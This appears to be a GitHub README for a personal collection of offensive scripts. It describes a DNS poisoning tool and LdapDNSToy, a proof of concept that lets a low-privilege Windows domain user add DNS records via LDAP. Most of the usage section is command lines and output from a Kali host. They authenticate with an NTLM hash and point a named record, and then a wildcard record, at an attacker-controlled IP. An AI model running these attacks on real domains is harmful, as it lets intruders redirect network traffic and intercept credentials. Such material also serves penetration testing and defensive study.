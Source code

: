 # Vault
This is just a place where I put simple scripts and notes to access them quickly.

## SDPT (Simple DNS Poisoner Tool) 
Sniffes for DNS queries going through your attacker host and provides fake answers to the specified DNS type A queries. It also forwards other queries different than type A and those pointing to FQDN that are not specifically included within the fake list.

## LdapDNSToy
This simple PoC allows to insert DNS type A records on a Windows Domain DNS server via LDAP by means of a Domain User (without additional privileges) using Python. 
* The original idea can be read here: https://blog.netspi.com/exploiting-adidns/


### Basic Usage:
**1. Adding a new DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

Host nodito.bransh.local not found: 3(NXDOMAIN)
root@kali:/#
```
Let's add it pointing to the attacker-controlled IP 10.x.x.111:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name nodito
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```
Wait for a few minutes and then try to solve it again:
```
root@kali:/# host nodito.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

nodito.bransh.local has address 10.x.x.111
root@kali:/# 
```

**2. Adding a wildcard DNS node (type A record)**

Observe the host "nodito.bransh.local" does not exist:
```
root@kali:/# python LdapDNSToy.py -d bransh.local -u lowpriv1 -hash FBDCD5041C96DDBD82224270B57F11FC -dc 10.x.x.190 -ip 10.x.x.111 -name \*
[*] Creating an LDAP connection.
[*] Using NTLM authentication.
[*] The object was successfully added.
root@kali:/# 
```

Now, try to resolve any hostname such as unknown or trulyunknown and observe how they ALL point to the same attacker-controlled IP:
```
root@kali:/# host unknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

unknown.bransh.local has address 10.x.x.111
```
```
root@kali:/# host trulyunknown.bransh.local 10.x.x.190
Using domain server:
Name: 10.x.x.190
Address: 10.x.x.190#53
Aliases: 

trulyunknown.bransh.local has address 10.x.x.111
root@kali:/# 
```
